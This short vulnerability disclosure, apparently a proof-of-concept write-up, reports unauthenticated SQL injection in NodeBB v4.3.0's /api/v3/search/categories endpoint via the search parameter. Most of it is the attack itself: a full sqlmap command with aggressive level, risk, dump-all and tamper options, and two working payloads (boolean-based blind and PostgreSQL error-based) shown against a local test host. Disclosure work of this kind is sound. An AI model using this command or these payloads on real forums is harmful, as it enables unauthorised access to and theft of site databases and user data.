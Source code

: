 NodeBB v4.3.0.

NodeBB v4.3.0 is vulnerable to SQL injection in its search‐categories API endpoint (/api/v3/search/categories). The search query parameter is not properly sanitized, allowing unauthenticated, remote attackers to inject boolean‐based blind and PostgreSQL error‐based payloads.


Command used:

```
python3 ~/tools/sqlmapproject-sqlmap-c8c7fee/sqlmap.py -r nodebb
--level 5 --risk 3 -a --banner --batch --tamper
least,charencode,escapequotes
```

SQL Injection details from sqlmap:
```
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://nodebb.local.yunohost/api/v3/search/categories?search='
AND 4638=4638--
tbby&query[cid]=-1&parentCid=0&selectedCids[]=-1&privilege=topics:read&states[]=watching&states[]=tracking&states[]=notwatching&showLinks=

    Type: error-based
    Title: PostgreSQL OR error-based - WHERE or HAVING clause
    Payload: http://nodebb.local.yunohost/api/v3/search/categories?search=-3217'
OR 1251=CAST((CHR(113)||CHR(98)||CHR(118)||CHR(98)||CHR(113))||(SELECT
(CASE WHEN (1251=1251) THEN 1 ELSE 0
END))::text||(CHR(113)||CHR(113)||CHR(118)||CHR(98)||CHR(113)) AS
NUMERIC)-- WsPn&query[cid]=-1&parentCid=0&selectedCids[]=-1&privilege=topics:read&states[]=watching&states[]=tracking&states[]=notwatching&showLinks=
---
```
Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/NodeBB-v4.3.0.-SQL-Injection-via-search-parameter.gif?raw=true)
